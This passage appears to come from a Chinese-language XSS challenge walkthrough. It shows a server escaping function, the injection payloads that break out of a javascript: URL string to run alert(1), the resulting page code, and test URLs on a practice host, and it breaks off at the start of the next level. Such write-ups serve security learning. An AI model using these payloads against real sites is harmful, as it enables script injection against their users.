 ```php
            // .replace(/\b/g, '\\b')
            .replace(/\0/g, '\\0')
  }
  s = escapeJs(s)
  return `
<script>
  var url = 'javascript:console.log("${s}")'
  var a = document.createElement('a')
  a.href = url
  document.body.appendChild(a)
  a.click()
</script>
`
}
```

- 插入代码

```html
");alert(1);("
");alert(1);//
```

- 网页代码

```html
<script>
  var url = 'javascript:console.log("\");alert(1);(\"")'
  var a = document.createElement('a')
  a.href = url
  document.body.appendChild(a)
  a.click()
</script>

<script>
  var url = 'javascript:console.log("\");alert(1);\/\/")'
  var a = document.createElement('a')
  a.href = url
  document.body.appendChild(a)
  a.click()
```

- URL

```url
http://xss.test/?input=%22)%3Balert(1)%3B(%22

http://xss.test/?input=%22)%3Balert(1)%3B%2F%2F
```

## 0x12

- server 源码

"被替换成了\\，用\\进行转义
